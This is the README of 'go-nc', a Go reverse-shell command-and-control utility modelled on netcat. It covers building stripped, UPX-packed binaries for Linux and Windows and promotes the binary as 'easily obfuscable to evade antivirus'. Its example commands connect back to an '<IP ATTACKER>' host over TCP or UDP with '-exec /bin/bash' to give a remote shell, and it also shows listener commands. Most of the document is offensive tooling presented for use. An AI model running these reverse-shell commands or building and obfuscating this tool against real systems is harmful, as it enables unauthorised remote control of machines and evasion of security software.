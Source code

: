# go-nc
Simple Command & Control for revshells in pure Go (Like a Netcat)

# Why?
The project is based on two repositories, which I unify and modify according to the use that is given to hacking. The idea of this project is to quickly and easily compile a multipurpose binary for different platforms and architectures. The advantage of this project is that it is easily obfuscable to evade antivirus, example: https://twitter.com/vay3t/status/1415547032719273984

Note: I asked the gonc project owner to include the -exec functionality to his project. As I am a bit impatient, I ended up doing it my way and it managed to remain functional.

Project based on:
* https://github.com/LukeDSchenk/go-backdoors
* https://github.com/dddpaul/gonc/


# Build

### For Linux
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
go build -ldflags "-s -w" go-nc.go
upx go-nc
```

```
-rwxr-xr-x 1 vay3t vay3t 685K Jul 15 00:21 go-nc
```

### For Windows
```bash
git clone https://github.com/vay3t/go-nc
cd go-nc
GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" go-nc.go
upx go-nc.exe
```

```
-rwxr-xr-x 1 vay3t vay3t 825K Jul 15 00:30 go-nc.exe
```

# Usage

## Help
```
Usage of ./go-nc:
  -exec string
        command to execute
  -host string
        host to connect to
  -listen
        listen for incoming connections
  -port int
        port to connect to (default 4444)
  -proto string
        protocol to use (default "tcp")
```

## Examples

### Client

* Connect to attacker in port 4444/TCP with shell

```bash
./go-nc -host <IP ATTACKER> -exec /bin/bash
```

* Connect to attacker in port 5353/UDP with shell

```bash
./go-nc -host <IP ATTACKER> -port 5353 -proto udp -exec /bin/bash
```

* Connect to attacker in port 4444/TCP without shell

```bash
./go-nc -host <IP ATTACKER>
```

* Connect to attacker in port 5353/UDP without shell

```bash
./go-nc -host <IP ATTACKER> -port 5353 -proto udp
```

### Server

* Open port 4444/TCP in Listen mode

```bash
./go-nc -listen
```

* Open port 5353/UDP in Listen mode

```bash
./go-nc -listen -port 5353 -proto udp
```